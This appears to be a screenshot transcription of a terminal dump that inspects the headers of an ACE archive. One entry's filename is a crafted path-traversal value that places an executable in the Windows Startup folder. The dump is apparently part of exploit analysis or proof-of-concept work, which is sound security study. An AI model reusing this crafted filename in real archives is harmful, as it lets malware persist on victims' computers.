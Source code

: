 ```
    reserved1   97 4f f6 aa 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x8965
    hdr_size    40
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    6
    origsize    6
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0xc9c5cfdf
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'hello.txt'
    comment     b''
    ntsecurity  b''
    reserved2   b''
header
    hdr_crc     0x3161
    hdr_size    40
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    6
    origsize    6
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0x22c79e57
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'world.txt'
    comment     b''
    ntsecurity  b''
    reserved2   b''
header
    hdr_crc     0x14c6
    hdr_size    113
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    73802
    origsize    73802
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0x6735f66e
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:C:../AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\abcdef.exe'
    comment     b''
    ntsecurity  b''
    reserved2   b''
msfdev2@automata:~$ 
```
